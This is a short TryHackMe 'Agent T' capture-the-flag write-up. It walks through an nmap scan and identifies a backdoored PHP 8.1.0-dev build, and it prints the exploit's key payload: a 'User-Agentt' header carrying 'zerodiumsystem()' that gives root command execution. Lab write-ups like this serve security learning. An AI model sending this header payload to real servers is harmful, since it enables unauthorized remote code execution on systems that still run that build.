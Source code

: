 
# TryHackme Agent T Write-up

Below is my write up for the room [Agent T](https://tryhackme.com/room/agentt).

We start the machine and lets run a `nmap` scan to see what we can find.

```bash
└─$ sudo nmap -sC -sV 10.10.245.251
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 22:00 AEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.245.251
Host is up (0.30s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

```
We can only see one port open. This just lands us on a SB Admin 2 page.

![SBAdminexample](/THM/Images/AgentT/AgentTdashboard.png)

Looking through the html code and running a gobuster gives us nothing useful.

Lets see what we can capture through Burp Suite. The only thing we can see that really interest us is the PHP build running on the server `PHP 8.1.0 dev`.


![BurpsuiteCapture](/THM/Images/AgentT/AgentTBurpsuiteCapture.png)

If we search through exploit database we can find the vunerability. Exploit by `flast101` - [Exploit DB webpage](https://www.exploit-db.com/exploits/49933). The specific version was released with a back door on March 28th 2021, but the backdoor was quickly discover and patch up. An attacker can execute arbitray code by sending the commands on the User-Agent header.

There are a few good examples of exploits around but what they all demostrate is that by sending 

```bash
headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');" # Here is where our commands will be sent
            }

```
The server will run those commands. Using the python script from `flast101`. 

![Flag](/THM/Images/AgentT/AgentTPythonRCE.png)

We are able to see that the vulnerability is high risk as we can send commands to the server as root. 
